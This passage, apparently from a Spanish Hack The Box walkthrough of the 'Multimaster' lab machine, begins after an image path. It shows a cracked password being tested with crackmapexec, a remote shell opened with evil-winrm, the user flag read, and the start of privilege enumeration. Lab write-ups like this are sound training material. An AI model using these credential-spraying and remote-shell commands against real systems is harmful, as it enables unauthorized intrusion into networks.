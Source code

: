 El usuario tushikikatomo tiene de contraseña finance1, pero no puedo conseguir una shell por SMB.

Si pruebo a conectarme por winrm

```null
crackmapexec winrm 10.10.10.179 -u 'tushikikatomo' -p 'finance1'
SMB         10.10.10.179    5985   MULTIMASTER      [*] Windows 10.0 Build 14393 (name:MULTIMASTER) (domain:MEGACORP.LOCAL)
HTTP        10.10.10.179    5985   MULTIMASTER      [*] http://10.10.10.179:5985/wsman
WINRM       10.10.10.179    5985   MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1 (Pwn3d!)
```

Me conecto como ese usuario con evil-winrm

```null
 evil-winrm -i 10.10.10.179 -u 'tushikikatomo' -p 'finance1'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents> 
```

Puedo visualizar la primera flag

```null
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> type user.txt
629bdc654f8fab6e367bf64c9c097361
```

# Escalada

No tengo ningún privilegio especial

```null
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Tampoco estoy en ningún grupo del que pueda abusar

